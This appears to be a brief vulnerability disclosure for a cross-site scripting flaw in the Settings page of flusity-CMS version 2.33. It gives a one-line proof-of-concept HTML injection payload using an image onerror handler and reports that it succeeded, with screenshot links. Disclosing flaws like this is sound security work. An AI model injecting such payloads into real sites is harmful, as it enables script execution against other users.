 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the "Settings" .

![1](https://github.com/TinkAnet/cve/assets/118334129/4a62f362-d435-4e8f-ba3c-765a82a4bcbf)


poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/TinkAnet/cve/assets/118334129/f038e3b3-46b9-4a01-a3b4-f512cf0dd18c)

